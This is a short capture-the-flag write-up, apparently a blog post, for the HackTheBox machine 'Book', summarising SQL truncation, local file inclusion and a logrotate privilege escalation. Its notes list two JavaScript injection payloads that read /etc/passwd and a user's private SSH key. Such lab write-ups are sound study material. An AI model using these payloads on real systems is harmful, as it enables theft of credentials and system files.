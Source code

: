 ```yaml
---
categories:
- CTF
image:
  path: https://img.youtube.com/vi/7QXzebQHEWA/0.jpg
layout: post
media_subpath: /assets/posts/2020-07-11-book-hackthebox
tags:
- cve
- hackthebox
- lfi
- linux
- logrotate
- sql trunaction
title: Book @ HackTheBox
---
```


Book is a 30-point Linux machine on HackTheBox. We log into a web application by exploiting SQL truncation and then use a Local File Inclusion vulnerability to obtain an SSH key. By exploiting a logrotate CVE we escalate privileges.

{% youtube 7QXzebQHEWA %}

## Notes

JS Payloads:

```js
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>

<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///home/reader/.ssh/id_rsa");x.send();</script>
```